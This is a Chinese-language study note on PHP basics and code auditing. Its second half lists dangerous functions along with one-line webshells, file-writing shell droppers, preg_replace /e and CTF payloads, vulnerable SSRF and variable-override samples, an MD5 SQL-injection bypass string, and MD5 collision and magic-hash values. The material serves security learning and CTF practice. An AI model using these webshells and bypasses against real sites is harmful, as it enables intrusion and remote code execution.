

0x01 PHP基础知识
关于这一块儿，当初在菜鸟也学习过，这里也不想在赘述，可以说是懒吧，就记录一些我认为重点的
思路主要还是先了解，能简单实践就实践，到了代码审计的时候，在遇到什么解决什么
PHP 运行命令
$ php hello.php变量 Variables
$boolean1 = true;
$boolean2 = True;
$int = 12;
$float = 3.1415926;
unset($float); // 删除变量
$str1 = "How are you?";
$str2 = 'Fine, thanks';字符串 Strings
$url = "jaywcjlove.github.io";
echo "I'm learning PHP at $url";
// 连接字符串
echo "I'm learning PHP at " . $url;
$hello = "Hello, ";
$hello .= "World!";
echo $hello; # => Hello, World!包含 Include
<?php
include 'vars.php';
echo $fruit . "\n"; # => apple
/* 与 include 相同，
如果不能包含则导致错误*/
require 'vars.php';
// 也有效
include('vars.php');
require('vars.php');
// 通过 HTTP 包含
include 'http://x.com/file.php';
// 包含和返回语句
$result = include 'vars.php';
echo $result; # => Anything you like.
?>整数 Integer
$int1 = 28; # => 28
$int2 = -32; # => -32
$int3 = 012; # => 10 (octal)
$int4 = 0x0F; # => 15 (hex)
$int5 = 0b101; # => 5 (binary)
$int6 = 2_000_100_000;
# => 2000100000 (decimal, PHP 7.4.0)浮点数 Float
$float1 = 1.234;
$float2 = 1.2e7;
$float3 = 7E-10;
$float4 = 1_234.567; // as of PHP 7.4.0
var_dump($float4); // float(1234.567)
$float5 = 1 + "10.5"; # => 11.5
$float6 = 1 + "-1.3e3"; # => -1299Null
$a = null;
$b = 'Hello php!';
echo $a ?? 'a is unset'; # => a is unset
echo $b ?? 'b is unset'; # => Hello php
$a = array();
$a == null # => true
$a === null # => false
is_null($a) # => false这里的??为空合并运算符
上述PHP代码是一个使用了空合并运算符（null coalescing operator）的表达式。该代码用于检查变量$a是否已设置，如果已设置则返回其值，如果未设置则返回字符串 'a is unset'。
空合并运算符 ?? 是在PHP 7中引入的。它的作用是判断左侧表达式的值是否为null，如果是null则返回右侧表达式的值，否则返回左侧表达式的值。
在上述代码中，$a ?? 'a is unset' 表达式会先判断变量$a的值是否为null。如果$a已设置且不为null，则整个表达式的结果为$a的值。如果$a未设置或为null，则整个表达式的结果为字符串 'a is unset'。
这样的代码可以用于提供默认值，当变量未设置时，可以返回一个预定义的值，以避免使用未定义的变量而引发错误。多行 Multi-line
$str = "foo";
// 未插值的多行
$nowdoc = <<<'END'
Multi line string
$str
END;
// 将执行字符串插值
$heredoc = <<<END
Multi line
$str
END;EOF用法，使用概述：
-
- 必须后接分号，否则编译通不过。
-
- EOF 可以用任意其它字符代替，只需保证结束标识与开始标识一致。
-
- 结束标识必须顶格独自占一行(即必须从行首开始，前后不能衔接任何空白和字符)。
-
- 开始标识可以不带引号或带单双引号，不带引号与带双引号效果一致，解释内嵌的变量和转义符号，带单引号则不解释内嵌的变量和转义符号。
-
- 当内容需要内嵌引号（单引号或双引号）时，不需要加转义符，本身对单双引号转义，此处相当与q和qq的用法。
操作 Manipulation
$s = "Hello Phper";
echo strlen($s); # => 11
echo substr($s, 0, 3); # => Hel
echo substr($s, 1); # => ello Phper
echo substr($s, -4, 3);# => hpe
echo strtoupper($s); # => HELLO PHPER
echo strtolower($s); # => hello phper
echo strpos($s, "l"); # => 2
var_dump(strpos($s, "L")); # => false混合 int 和 string 键
$array = array(
"foo" => "bar",
"bar" => "foo",
100 => -100,
-100 => 100,
);
var_dump($array);短数组语法
$array = [
"foo" => "bar",
"bar" => "foo",
];操作
$arr = array(5 => 1, 12 => 2);
$arr[] = 56; // 附加
$arr["x"] = 42; // 用键添加
sort($arr); // 排序
unset($arr[5]); // 消除
unset($arr); // 移除所有串联阵列
$a = [1, 2];
$b = [3, 4];
// PHP 7.4 以后
# => [1, 2, 3, 4]
$result = [...$a, ...$b];在PHP 7.4及以后的版本中，$result = [...$a, ...$b]; 这段代码使用了展开运算符（spread operator）来将两个数组 $a 和 $b 的元素合并到一个新的数组 $result 中。
展开运算符 ... 可以将数组拆分为独立的元素，并在数组字面量或函数调用中使用。在这个例子中，[...$a, ...$b] 表达式将会展开数组 $a 和 $b 的元素，并将它们合并到一个新的数组中。
下面是一个示例来说明这段代码的含义：
$a = [1, 2, 3];
$b = [4, 5, 6];
$result = [...$a, ...$b];
print_r($result);输出结果：
Array
(
[0] => 1
[1] => 2
[2] => 3
[3] => 4
[4] => 5
[5] => 6
)在上述示例中，$a 是包含元素 [1, 2, 3] 的数组，$b 是包含元素 [4, 5, 6] 的数组。通过展开运算符 ...，[...$a, ...$b] 表达式将会将两个数组的元素合并到一个新的数组中，得到结果 $result。
因此，$result 的值将是一个包含所有 $a 和 $b 元素的新数组 [1, 2, 3, 4, 5, 6]。
Into 函数
$array = [1, 2];
function foo(int $a, int $b) {
echo $a; # => 1
echo $b; # => 2
}
foo(...$array);在这里，GPT解释是…$other代表other是可变参数，可以接受多个参数
Splat运算符
function foo($first, ...$other) {
var_dump($first); # => a
var_dump($other); # => ['b', 'c']
}
foo('a', 'b', 'c');
// 或
function foo($first, string ...$other){}匹配表达式
$age = 23;
$result = match (true) {
$age >= 65 => 'senior',
$age >= 25 => 'adult',
$age >= 18 => 'young adult',
default => 'kid',
};
echo $result; # => young adult返回类型
// 基本返回类型声明
function sum($a, $b): float {/*...*/}
function get_item(): string {/*...*/}
class C {}
// 返回一个对象
function getC(): C { return new C; }可空返回类型
// 在 PHP 7.1 中可用
function nullOrString(int $v) : ?string
{
return $v % 2 ? "odd" : null;
}
echo nullOrString(3); # => odd
var_dump(nullOrString(4)); # => NULL变量函数
function bar($arg = '')
{
echo "In bar(); arg: '$arg'.\n";
}
$func = 'bar';
$func('test'); # => In bar(); arg: test匿名函数
$greet = function($name)
{
printf("Hello %s\r\n", $name);
};
$greet('World'); # => Hello World
$greet('PHP'); # => Hello PHP箭头函数
$y = 1;
$fn1 = fn($x) => $x + $y;
// 相当于按值使用 $y：
$fn2 = function ($x) use ($y) {
return $x + $y;
};
echo $fn1(5); # => 6
echo $fn2(5); # => 6Nullsafe 运算符
// 从 PHP 8.0.0 开始，这一行：
$result = $repo?->getUser(5)?->name;
// 相当于下面的代码：
if (is_null($repo)) {
$result = null;
} else {
$user = $result->getUser(5);
if (is_null($user)) {
$result = null;
} else {
$result = $user->name;
}
}PHP 超级全局变量
$_SERVER
$_SERVER 是一个包含了诸如头信息(header)、路径(path)、以及脚本位置(script locations)等等信息的数组。这个数组中的项目由 Web 服务器创建。不能保证每个服务器都提供全部项目；服务器可能会忽略一些，或者提供一些没有在这里列举出来的项目。
以下实例中展示了如何使用$_SERVER中的元素:
<?php
echo $_SERVER['PHP_SELF'];
echo "<br>";
echo $_SERVER['SERVER_NAME'];
echo "<br>";
echo $_SERVER['HTTP_HOST'];
echo "<br>";
echo $_SERVER['HTTP_REFERER'];
echo "<br>";
echo $_SERVER['HTTP_USER_AGENT'];
echo "<br>";
echo $_SERVER['SCRIPT_NAME'];
?>0x02 PHP危险函数
先跟着现成的文章总结
代码执行函数
eval
#传入的参数必须为PHP代码，需要以分号结尾。
#执行多行代码
eval(phpinfo());
eval($_POST['cmd']);assert
#执行单行代码：与eval类似，字符串被 assert() 当做 PHP 代码来执行
assert($_POST['cmd']);eval与assert区别：
若给一个这样形式的一句话木马，该如何使用webshell进行连接呢<?php $_POST['1']($_POST['2']); ?>
如果想通过eval函数来完成一句话木马的话，不能直接1=eval&2用这种格式连接，原因是eval是一个语言构造器而不是一个函数，不能被可变函数调用。
PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途。
可变函数不能用于例如 echo，print，unset()，isset()，empty()，include，require 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。这么看来eval其实并不能算是‘函数’，而是PHP自身的语言结构，如果需要用‘可变’的方式调用，需要自己构造，类似这样子的：
<?php
function eval_1($str)
{
eval($str);
}
$a='eval_1';
$a('phpinfo()');
?> 所以我们需要借助其他命令执行函数如assert来实现，用1=assert(eval&2)最终转换为php代码为assert(eval($_POST['2']))
如图所示测试成功注意：测试时需要留意使用php的版本，若使用版本超过7.1则会连接失败。原因为
我们必须清楚一点，我们的eval函数中参数是字符，assert函数中参数为表达式 （或者为函数）
preg_replace
这个有版本限制：php5.5版本上/e就被弃用
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])
搜索subject中匹配pattern的部分， 以replacement进行替换。
preg_replace()函数原本是执行一个正则表达式的搜索和替换，但因为存在危险的/e修饰符，使 preg_replace() 将 replacement 参数当作 PHP 代码。（提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在包含 preg_replace() 的行中出现语法解析错误）
至于为什么我这里5.6都可以，是因为我在phpstorm中设置的语言级别是5.4
另外这里还需其他形式，这里稍微总结一下，日后再见到，就补充。
preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str）1、/g 表示该表达式将用来在输入字符串中查找所有可能的匹配，返回的结果可以是多个。如果不加/g最多只会匹配一个
2、/i 表示匹配的时候不区分大小写，这个跟其它语言的正则用法相同
3、/m 表示多行匹配。什么是多行匹配呢？就是匹配换行符两端的潜在匹配。影响正则中的^$符号
4、/s 与/m相对，单行模式匹配。
5、/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
6、/x 忽略空白模式。明白了/ei是什么，发现\\ 1又不知道是什么了
反向引用
对一个正则表达式模式或部分模式 两边添加圆括号 将导致相关 匹配存储到一个临时缓冲区 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 ‘\n’ 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。
说人话就是，\谁，就匹配第几个，如果对于如下代码
<?php
function test($str)
{}
echo preg_replace("/s*[php](.+?)[/php]s*/ies", 'test("\1")', $_GET["h"]);提交 ?h=[php]phpinfo()[/php]，phpinfo()是不会被执行的，因为经过正则匹配后， replacement 参数变为’test(“phpinfo”)'，此时phpinfo仅是被当做一个字符串参数了。
在这里我们如果提交?h=[php]{${phpinfo()}}[/php]，phpinfo()就会被执行。
在php中，双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果；单引号中的变量不会被处理。
注意：双引号中的函数不会被执行和替换。
防御办法
将'test("\1")' 修改为"test('\1')"，这样‘${phpinfo()}'就会被当做一个普通的字符串处理（单引号中的变量不会被处理）。举个CTF例子
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;
function complex($re, $str) {
return preg_replace(
'/(' . $re . ')/ei',
'strtolower("\\1")',
$str
);
}
foreach($_GET as $re => $str) {
echo complex($re, $str). "\n";
}
function getFlag(){
@eval($_GET['cmd']);
}foreach函数将参数和参数值分别给了$re和$str，$re作为正则表达式，$str作为要被替换的字符串。要执行上面的漏洞，要正则表达式和字符串匹配起来，于是，playload查看phpinfo
?\S*=${phpinfo()}解释一下：\S意思为匹配所有的字符，一定要是大写S，大小写是有区别的
[\s]---表示，只要出现空白就匹配；
[\S]---表示，非空白就匹配；后面的值是个变量，能让漏洞执行这个变量，这个再强调一次，只有在双引号包裹的字符串中才可以解析变量，单引号不行
payload如下：
?\S*=${getFlag()}&cmd=show_source('/flag');
?\S*=${getFlag()}&cmd=eval($_POST[pass]);--蚁剑
?\S*=${$_POST[pass]}--POST传参create_funcion
create_function主要用来创建匿名函数，如果没有严格对参数传递进行过滤，攻击者可以构造特殊字符串传递给create_function()执行任意命令。
string create_function(string $args , string $code )
$args 变量部分
$code 方法代码部分（要执行的代码）
<?php
$func = create_function("", $_POST['cmd']);
$func();
?>array_map
array_map()函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。 回调函数接受的参数数目应该和传递给array_map()函数的数组数目一致。
array_map( callable $callback, array $array1[, array $…] ) : array
array_map()：返回数组，是为 array1 每个元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 array_map() 数组数量，两者必须一样。
<?php
$func = $_GET['func'];
$cmd = $_GET['cmd'];
$array[0] = $cmd;
$new_array = array_map($func, $array);
?>
call_user_func
call_user_func 把第一个参数作为回调函数调用,其余参数是回调函数的参数。
<?php
@call_user_func(assert, $_GET['cmd']);
?>call_user_func_array
call_user_func_array把第一个参数作为回调函数（callback）调用，并把一个数组参数作为回调函数的参数
<?php
$array[0] = $_GET['cmd'];
@call_user_func_array(assert, $array);
?>array_filter
array_filter( array $array[, callable $callback[, int $flag = 0]] ) : array
依次将 array 数组中的每个值传递到 callback 函数。如果 callback 函数返回 true，则 array 数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。
<?php
$array[0] = $_GET['cmd'];
$func = $_GET['func'];
array(array_filter($array, $func));
?>usort与uasort
usort() 通过用户自定义的比较函数对数组进行排序。
uasort() 使用用户自定义的比较函数对数组中的值进行排序并保持索引关联 。
php>=5.6：变长参数是PHP5.6新引入的特性，在PHP中可以使用 func(…$arr)这样的方式，将$arr数组展开成多个参数，传入func函数。
<?php
//uasort(...$_GET);
usort(...$_GET);
?>php版本随意
<?php
//uasort(...$_GET);
usort($_GET, 'assert');
?>
文件操作函数
file_put_contents() 函数把一个字符串写入文件中。
fputs() 函数写入文件
<?php
$test = '<?php eval($_POST[1]);?>';
file_put_contents("shell.php", $test);
?>
<?php
fputs(fopen('shell.php', 'w'), '<?php eval($_POST[1]);?>');
?>动态函数
PHP函数直接由字符串拼接
<?php
$_GET['a']($_GET['b']);
?>“${@phpinfo()}”
<?php
//echo "${phpinfo()}";
echo "{${phpinfo()}}";
?>单引号不可以（花括号中语句前要加个@ ，不然不行）（@ 空格 tab 注释符 + -等符号都可以，就是不能直接写代码）

命令执行函数
exec
function exec(string $command,array[optional] $output,int[optional] $return_value)
php代码：
<?php
exec('ipconfig', $v);
print_r($v);
?>知识点：
exec 执行系统外部命令时不会输出结果，而是返回结果的最后一行，如果你想得到结果你可以使用第二个参数，让其输出到指定的数组，此数组一个记录代表输出的一行，即如果输出结果有20行，则这个数组就有20条记录，所以如果你需要反复输出调用不同系统外部命令的结果，你最好在输出每一条系统外部命令结果时清空这个数组，以防混乱。第三个参数用来取得命令执行的状态码，通常执行成功都是返回０。
这里遇到了print、echo、print_r打印函数，问问GPT的区别
放几个例子
$message = "Hello, World!";
print $message;
// 输出：Hello, World!
$name = "John";
$age = 25;
echo "My name is ", $name, " and I am ", $age, " years old.";
// 输出：My name is John and I am 25 years old.
$cars = array("BMW", "Toyota", "Honda");
print_r($cars);
/* 输出：
Array
(
[0] => BMW
[1] => Toyota
[2] => Honda
)
*/
print "Hello, World!";。
echo：
echo用于将一个或多个字符串或表达式输出到标准输出。echo没有返回值，它会在输出时直接将内容发送到标准输出。echo可以打印各种数据类型的值，包括字符串、数字、布尔值和数组等。
print_r：
print_r是一个函数，可以传递一个变量作为参数。print_r用于以易读的方式输出变量的信息，通常用于调试和打印复杂的数据结构（如数组和对象）。print_r会递归地遍历数组和对象，并打印它们的键和值，以及其他信息（如类型、长度等）。print_r的输出结果更加详细和可读，适合用于开发和调试目的。
总的来说：print 和 echo 更适合简单的字符串输出，而 print_r 则更适合打印复杂的数据结构。选择使用哪个函数取决于你的具体需求和输出内容的类型。
passthru
function passthru(string $command,int[optional] $return_value)
<?php
passthru('ipconfig');
?>
知识点：
passthru与system的区别，passthru直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，不返回任何值，且其可以输出二进制，比如图像数据。
system
function system(string $command,int[optional] $return_value)
<?php
system('ipconfig');
?>system和exec的区别在于system在执行系统外部命令时，直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，如果执行命令成功则返回true，否则返回false。第二个参数与exec第三个参数含义一样。
反撇号`和shell_exec
shell_exec() 函数实际上仅是反撇号 (`) 操作符的变体
<?php
echo shell_exec('ipconfig');
echo (`ipconfig`);
?>popen函数打开进程
上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。
resource popen ( string $command , string $mode )
函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。
函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。popen()打开一个指向进程的管道，该进程由派生给定的command命令执行而产生。
返回一个和fopen()所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用pclose()来关闭。
此指针可以用于fgets()，fgetss()和 fwrite()
<?php
popen('ipconfig >> ./ip.txt', 'r');
?><?php
$test="ls /tmp/test";
$fp = popen($test, "r");
while(!feof($fp)){
$out = fgets($fp, 4096);
echo $out;
}
pclose($fp);
?>上述代码是一个简单的 PHP 脚本，用于执行系统命令并读取其输出。
以下是对代码的详细解释：
1. `$test = "ls /tmp/test";`：定义一个字符串变量 `$test`，存储要执行的系统命令。在这个例子中，命令是 `ls /tmp/test`，它将列出 `/tmp/test` 目录中的文件和文件夹。
2. `$fp = popen($test, "r");`：使用 `popen()` 函数打开一个管道，并执行给定的命令。`$test` 是要执行的命令，`"r"` 表示以只读模式打开管道。`popen()` 函数会返回一个文件指针，用于后续读取命令的输出。
3. `while(!feof($fp)){...}`：使用 `while` 循环读取管道中的输出。`feof($fp)` 函数在文件指针到达文件末尾时返回 `true`，因此 `while(!feof($fp))` 表达式将在文件指针未到达文件末尾时执行循环体。
4. `$out = fgets($fp, 4096);`：使用 `fgets()` 函数从管道中读取一行数据，并将其存储在变量 `$out` 中。`$fp` 是文件指针，`4096` 是每次读取的最大字节数。
5. `echo $out;`：将读取的行数据输出到标准输出。
6. `pclose($fp);`：关闭打开的管道，释放相关资源。
通过上述代码，系统命令 `ls /tmp/test` 的输出将被逐行读取并输出到标准输出。这样，你可以在 PHP 脚本中执行命令并处理其输出。请注意，执行系统命令需要谨慎，确保命令的来源和执行环境的安全性。proc_open
与Popen函数类似，但是可以提供双向管道
pcntl_exec
path是可执行二进制文件路径或一个在文件第一行指定了一个可执行文件路径标头的脚。
args是一个要传递给程序的参数的字符串数组。
pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。
pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0
SSRF
file_get_contents
直接用file_get_contents()加载url指向文件
<?php
if (isset($_POST['url'])){
$content = file_get_contents($_POST['url']);
$filename = './images/'.rand().';img1.jpg';
file_put_contents($filename, $content);
echo $_POST['url'];
$img = "<img src=\"".$filename."\"/>";
}
echo $img;
?>另外这个函数也可以配合PHP伪协议进行利用，比如：php://input
fsockopen
fsockopen函数会使用socket跟服务器建立tcp连接，传输原始数据
<?php
function GetFile($host, $port, $link){
$fp = fsockopen($host. intval($port), $errno, $errstr, 30);
if(!$fp){
echo "$errno (error number $errno) \n";
}
else{
$out = "GET $link HTTP/1.1\r\n";
$out .= "HOST: $host\r\n";
$out .= "Connection: Close\r\n\r\n";
$out .= "\r\n";
fwrite($fp, $out);
$contents = '';
while(!feof($fp)){
$contents .= fgets($fp, 1024);
}
fclose($fp);
return $contents;
}
}
?>curl_exec
<?php
if(isset($_POST['url'])){
$link = $_POST['url'];
$curlobj = curl_init();
curl_setopt($curlobj, CURLOPT_POST, 0);
curl_setopt($curlobj, CURLOPT_URL, $link);
curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
$result = curl_exec($curlobj);
curl_close($curlobj);
$filename = './curled/'.rand().'.txt';
file_put_contents($filename, $result);
echo $result;
}
?>变量覆盖
$$
<?php
foreach (array('_COOKIE', '_POST', '_GET') as $_request){
foreach ($$_request as $_key => $_value){
$$_key = addslashes($_value);
echo $_key."\n";
echo $$_key."\n";
}
}
?>以上代码，可以用从COOKIE、POST、GET获得的 ‘参数=值’，来覆盖之前的所有变量
register_globals
php.ini中有一项为register_globals，即注册全局变量，当register_globals=On时，传递过来的值会被直接的注册为全局变量直接使用，而register_globals=Off时，我们需要到特定的数组里去得到它。
注意：register_globals已自 PHP 5.3.0 起废弃并将自 PHP 5.4.0 起移除。
当register_globals=On，变量未被初始化且能够用户所控制时，就会存在变量覆盖漏洞：
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";
if ($a) {
echo "Hacked!";
}
?>通过GET和POST方式输入变量a的值（不好搭环境，直接cv了）：
当然，也可以从COOKIE中输入：

extratct
extract(array,extract_rules,prefix)
extract函数从数组中将变量导入到当前的符号表。
该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。
该函数返回成功设置的变量数目。
array必需。规定要使用的数组。
extract_rules可选。extract函数将检查每个键名是否为合法的变量名，同时也检查和符号表中已存在的变量名是否冲突。对不合法和冲突的键名的处理将根据此参数决定。
可能的值：EXTR_OVERWRITE ——默认。如果有冲突，则覆盖已有的变量。
<?php
$a = 1;
$b = array('a'=>'3');
extract($b);
echo $a; //输出为3
?>parse_str
parse_str(string, array)
parse_str函数把查询字符串解析到变量中。注释:如果未设置array参数，由该函数设置的变量将覆盖已存在的同名变量。
parse_str函数的作用就是解析字符串并注册成变量，在注册变量之前不会验证当前变量是否存在，所以直接覆盖掉已有变量
string必需。规定要解析的字符串。
array可选。规定存储变量的数组名称。该参数指示变量存储到数组中。
<?php
$a = 1;
parse_str('a=2');
print_r($a);//输出为2
?>mb_parse_str
mb_parse_str()函数用于解析GET/POST/COOKIE数据并设置全局变量，和parse_str()类似：
<?php
$a = 'oop';
mb_parse_str($_SERVER["QUERY_STRING"]);
if ($a == 'mi1k7ea') {
echo "Hacked!";
} else {
echo "Hello!";
}
?>import_request_variables
bool import_request_variables(string $types[string$prefix] )
import_request_variables将 GET/POST/Cookie变量导入到全局作用域中;
import_request_variables函数就是把GET、POST、COOKIE的参数注册成变量，用在register. globals被禁止的时候
$type代表要注册的变量，G代表GET，P代表POST，C代表COOKIE，第二个参数为要注册变量的前缀
这个函数我在测试的时候，说是PHP 5.3之后已经弃用，在PHP 5.4之后移出——看来基本不会遇见了
<?php
$auth = '0';
import_request_variables('G');
if($auth = 1){
echo "private!";
}
else {
echo "public!";
}
//输入：www.xxx.com?auth=1
//输出：private
?>XXE
simplexml_load_string
实例： 闪灵s-cms（这里我直接cv了
看到IF语句这边是需要满足两个条件：$signature 不等于空、$echostr 等于空。通过全局搜索可以知道了 $signature 是一个超全局变量 signature，$echostr也是
我们可以控制simplexml_load_string的内容，所以存在XXE，可以读取任意文件：
显然还有其他函数，日后遇到继续总结
PHP特性
in_array
在判断之前自动做类型转换（跟着CTF里的知识学习）
这里可以很容易理解出，如果上传的文件名是1-24中的一个，那么就将文件进行上传。下面是in_array()函数的定义。
in_array ：(PHP 4, PHP 5, PHP 7)
功能 ：检查数组中是否存在某个值
定义 ： bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
在 $haystack 中搜索 $needle ，如果第三个参数 $strict 的值为 TRUE ，则 in_array() 函数会进行强检查，检查 $needle 的类型是否和 $haystack 中的相同。如果找到 $haystack ，则返回 TRUE，否则返回 FALSE。
上面的代码可以看到，第三个参数没有设置，那就默认是false，也就是弱检查，相当于PHP弱比较==
那我们只需要构造文件名7shell.php，这时in_array在判断的时候，会将7shell.php强转为7，而7肯定在range(1,24)中，最终就能绕过造成任意文件上传。（这里之所以会发生强制类型转换，是因为目标数组中的元素为数字类型)
tips：这个也与array_search相同，也可以用数组绕过
is_numeric
PHP提供了is_numeric函数，用来变量判断是否为数字。但是函数的范围比较广泛，不仅仅是十进制的数字。任何参数做16进制编码传入，会直接通过(true)：16进制会被判断为数字
tips：%00即空格会被判断为非数字–>即直接跳过检测了
比如下图的代码
要求密码不能为数字，但又得等于404，构造password=404%00——即可绕过
首先404%00被认为404 （这里有空格）判断为非数字，绕过检测，在下面又因为是弱比较，它被转为404，达到相等条件。
switch
如果switch是数字类型的case的判断时，Switch会将其中的参数转换为int类型
<?php
$index = "2abc";
switch ($index) {
case 0:
echo "it is 0";
case 1:
echo "it is 1";
case 2:
echo "it is 2";//输出it is 2
break;
case 3:
echo "it is 3";
default:
echo "no, you are a fw";
md5、sha1
0e开头的全部相等 （==判断）——MD5和sha1一样
md5('QNKCDZO') == md5(240610708)//true
//MD5加密后会变成这个样子
0e830400451993494058024219903391 == 0e462097431906509019562988736854由于0e开头的字符串会转换为0，所以真正比较的过程会变成这样0 == 0
常用的MD5加密后以0E开头的有
#0e开头的md5和原值：
QNKCDZO
0e830400451993494058024219903391
240610708
0e462097431906509019562988736854
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514双 md5：
$md5 md5($md5)
0e00275209979 0e551387587965716321018342879905
0e00506035745 0e224441551631909369101555335043
0e00540451811 0e057099852684304412663796608095
0e00678205148 0e934049274119262631743072394111
0e00741250258 0e899567782965109269932883593603
0e00928251504 0e148856674729228041723861799600
0e01350016114 0e769018222125751782256460324867
0e01352028862 0e388419153010508575572061606161
0e01392313004 0e793314107039222217518920037885
0e01875552079 0e780449305367629893512581736357
0e01975903983 0e317084484960342086618161584202
0e02042356163 0e335912055437180460060141819624
0e02218562930 0e151492820470888772364059321579
0e02451355147 0e866503534356013079241759641492
0e02739970294 0e894318228115677783240047043017
0e02760920150 0e413159393756646578537635311046
0e02784726287 0e433955189140949269100965859496
0e03298616350 0e851613188370453906408258609284
0e03393034171 0e077847024281996293485700020358利用数组绕过 （===判断）：md5不能加密数组，传入数组会报错，但会继续执行并且返回结果为null——MD5和sha1一样
md5(a[]=1) === md5(b[]=1) //true
//null === nullsql注入——md5（第二个参数被设置为 true）
<?php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
echo 'flag is :'.$flag;
}
else{
echo '密码错误!';
}第二个参数设置为 true 时， MD5 报文摘要将以16字节长度的原始二进制格式返回
?password=ffifdyop ，sql 语句转换为 SELECT * FROM admin WHERE pass=' 'or ' 6'<trash>同样 129581926211651571912466741651878684928 md5 后为 T0Do#'or'8
ffifdyop的MD5加密结果是 276f722736c95d99e921722cf9ed621c
经过MySQL编码后会变成'or'6xxx,使SQL恒成立,相当于万能密码,可以绕过md5()函数的加密md5、sha1强碰撞绕过——这种情况是在强比较的情况下，加了string（强转）——一般bp抓包才可
md5强碰撞例子
psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2
与
psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2
还有
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
与
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
似乎还有
param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
